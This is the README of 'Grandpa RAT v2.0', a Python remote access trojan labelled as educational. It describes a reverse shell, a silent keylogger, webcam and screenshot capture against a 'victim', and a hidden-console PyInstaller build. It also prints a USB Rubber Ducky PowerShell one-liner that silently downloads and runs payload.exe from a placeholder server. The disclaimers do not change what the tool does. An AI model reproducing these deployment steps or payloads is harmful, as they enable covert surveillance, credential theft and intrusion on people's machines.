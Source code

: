 📘 README.md
markdown
Copy
Edit
# 👴 Grandpa RAT v2.0 - Remote Access Tool (Educational)

**Grandpa RAT v2.0** is a modular Remote Access Tool (RAT) built in Python for educational and ethical hacking labs. This tool enables secure remote administration, basic surveillance, and command execution through a stealth client-server setup with both GUI and terminal-based controllers.

> ⚠️ **Educational Use Only.** Do not deploy on unauthorized systems. Built for testing in controlled environments such as VMs or cybersecurity labs.

---

## 🧠 Features

| Feature                | Description                                     |
|------------------------|-------------------------------------------------|
| 🔁 Reverse Shell      | Execute remote shell commands on the victim    |
| 🔐 Password Protection| Secure client-server communication             |
| 📷 Screenshot Capture | Take and retrieve desktop screenshots          |
| 🎥 Webcam Snapshot    | Capture image from victim’s webcam             |
| ⌨️ Keylogger         | Log keystrokes silently in the background      |
| 🧠 GUI Controller     | Intuitive Tkinter-based interface              |
| 🖥️ Terminal Controller| Optional command-line controller               |
| 💉 Rubber Ducky Script| USB attack payload to auto-deploy client       |
| 🔧 Obfuscation Ready  | Placeholder for `.exe` stealth tools (WIP)     |

---

## 📂 Project Structure

GrandpaRAT-v2.0/ ├── client/ # RAT client scripts (keylogger, webcam, shell) ├── server/ # GUI & CLI controllers ├── delivery/ # USB-based rubber ducky payload ├── build_tools/ # Obfuscation & EXE builder ├── Screenshot (11).png # GUI controller screenshot ├── Screenshot (12).png # Live connection preview ├── README.md # This documentation └── .gitignore # Git exclusions

yaml
Copy
Edit

---

## 🚀 Getting Started

### 📦 Install Dependencies

```bash
pip install pyautogui opencv-python pynput
🧪 Usage
1. Start the GUI controller (server)
bash
Copy
Edit
cd server
python gui_controller.py
2. Run the RAT client (on victim or VM)
bash
Copy
Edit
cd client
python rat_client.py
3. From GUI, send commands like:
whoami, ipconfig

screenshot, webcam

exit

🖼️ Screenshots
GUI Controller

Live Connection View

🛠️ Building Client to .exe
Install PyInstaller:

bash
Copy
Edit
pip install pyinstaller
Build the EXE:

bash
Copy
Edit
pyinstaller --onefile --noconsole rat_client.py
The .exe will be created inside /dist/

✅ Tip: Run it in a test VM and use your controller to manage the session.

🧪 USB Rubber Ducky Payload
Found in delivery/rubber_ducky_payload.txt — this is a payload you can flash onto a Rubber Ducky or HID emulator:

powershell
Copy
Edit
powershell -w hidden -c "iwr http://yourserver/payload.exe -OutFile $env:temp\\rat.exe; Start-Process $env:temp\\rat.exe"
🔒 Legal Disclaimer
This software is provided for educational purposes only.
Unauthorized access to computer systems is illegal.
Use only on systems you own or are authorized to test.
The author assumes no responsibility for misuse.

👨‍💻 Author
Matthew Ogoh – Cybersecurity Specialist & Ethical Hacker
GitHub: @grandpacltn
Twitter: @cybergrandpa

⭐ Star The Project
If this helped you learn ethical hacking or inspired your own build, give it a ⭐ and share it with fellow learners!
